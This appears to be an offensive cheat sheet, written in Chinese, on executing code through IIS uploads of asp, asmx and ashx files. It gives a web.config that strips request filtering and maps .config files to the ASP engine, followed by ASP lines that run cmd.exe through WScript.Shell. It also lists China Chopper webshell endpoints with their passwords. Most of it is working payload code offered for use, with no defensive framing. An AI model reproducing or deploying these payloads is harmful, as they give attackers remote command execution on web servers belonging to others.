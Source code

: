 asp asmx ashx soap svc      #http://py4.me/blog/?p=448
### web.config #需要asp环境支持
```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <handlers accessPolicy="Read, Script, Write">
            <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
        </handlers>
        <security>
            <requestFiltering>
                <fileExtensions>
                    <remove fileExtension=".config" />
                </fileExtensions>
                <hiddenSegments>
                    <remove segment="web.config" />
                </hiddenSegments>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
<%response.write("asp test")%>
通过填入下面语句可成功执行asp语句
<%
Response.write CreateObject("wscript.shell").exec("cmd.exe /c ipconfig").StdOut.ReadAll
%>
<%=CreateObject("wscript.shell").exec("cmd.exe /c ipconfig").StdOut.ReadAll()%>
```
### asmx  
asmx demo  
```
<%@ WebService Language="C#" Class="Service" %>
 
using System.Web;
using System.Web.Services;
using System.Web.Services.Protocols;
 
public class Service : System.Web.Services.WebService
{
    [WebMethod]
    public string HelloWorld() {
        return "HelloWorld";
    }
}

http://192.168.44.132:8980/customize.asmx/Chopper   #菜刀密码z
z=A     #POST查看运行目录  
http://192.168.44.132:8980/asmxWebMethodSpy.asmx/Invoke     #密码Ivan
```
### ashx  
```
//浏览器访问这个ashx文件打印Test!  #证明可以使用
<%@ WebHandler Language="C#" Class="Handler" %>
using System;
using System.Web;
public class Handler : IHttpHandler{
    public void ProcessRequest(HttpContext context)
    {
        context.Response.Write("Test!");
    }
```